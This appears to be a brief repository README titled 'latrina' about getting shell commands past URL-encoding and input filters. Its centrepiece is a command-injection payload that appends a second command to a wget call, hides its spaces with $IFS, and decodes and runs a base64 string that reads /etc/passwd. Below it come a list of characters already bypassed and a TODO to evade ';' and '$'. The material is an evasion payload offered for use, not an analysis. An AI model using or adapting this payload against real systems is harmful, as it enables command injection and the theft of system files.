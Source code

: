 # latrina
bypass url encoding with nontrivial commands

```
wget https://github.com/kusky3/latrina/raw/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c<<<$a)
```
# bypassed
```
"
{
}
' ' # space
```

# TODO
bypass ; and $
